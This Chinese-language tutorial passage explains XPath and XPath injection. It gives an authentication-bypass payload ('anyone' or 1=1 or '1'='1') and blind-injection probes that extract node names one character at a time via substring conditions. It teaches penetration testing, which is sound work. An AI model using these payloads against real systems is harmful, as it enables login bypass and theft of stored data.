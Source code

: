 ## 3 XPATH Injection

### 3.1 XPATH 基本概念

XPath 即为 XML 路径语言，是 W3C XSLT 标准的主要元素，它是一种用来确定 XML（标准通用标记语言的子集）文档中某部分位置的语言。

XPath 基于 XML 的树状结构，有不同类型的节点，包括元素节点，属性节点和文本节点，提供在数据结构树中找寻节点的能力，可用来在 XML 文档中对元素和属性进行遍历。

XPath 使用路径表达式来选取 XML 文档中的节点或者节点集。这些路径表达式和我们在常规的电脑文件系统中看到的表达式非常相似。

更多信息可参考：https://www.w3school.com.cn/xpath/index.asp

如果信息被存储在XML文档中，那么查询信息的方法就是借助XPATH语句实现。虽然XML并不是存储大量信息的首选方式，但仍有可能存在。可能使用XML存放信息的情况有：
- 配置文件
- Internet交换文档使用了XML。
- 小型数据文件
- 物联网设备中的信息


### 3.2 XPATH 注入示例


下面是一个XPath查询语句，获取loginID为abc的所有user数据。
```
//users/user[loginID/text()=’abc’ and password/text()=’test123’]
```
用户需要提交正确的loginID和password才能返回结果。但如果黑客在 loginID 字段中输入：anyone' or 1=1 or '1'='1 并在 password 中输入：123，或任意字符串，就能绕过校验，成功获取所有user数据，原语句就变成如下句子：
```
//users/user[LoginID/text()='anyone' or 1=1 or '1'='1' and password/text()='123']
```

#### 3.2.1 渗透思路

任何时候，在探查sql注入时发现注入点又不能成功时，可以尝试下列XPATH注入：

1.尝试提交下列注入载荷，并确定它们是否能够引起应用程序行为变化，但又不会造成错误。

若输入框要求输入字符串时：
```
' or count(parent::*[position()=1])=0 or 'a'='b

' or count(parent::*[position()=1])>0 or 'a'='b
```
若输入框要求输入字符串时：

```
1 or count(parent::*[position()=1])=0 

1 or count(parent::*[position()=1])>0 
```

2.如果上面的任何字符串导致应用程序的行为发生改变，但不会造成错误，很可能可以通过设计测试条件，一次提取一个字节的信息，从而获取任意数据。使用一系列以下格式的条件确定当前节点的父节点的名称：
```
substring(name(parent::*[position()=1]),1,1)='a

substring(name(parent::*[position()=1]),1,1)='b
```
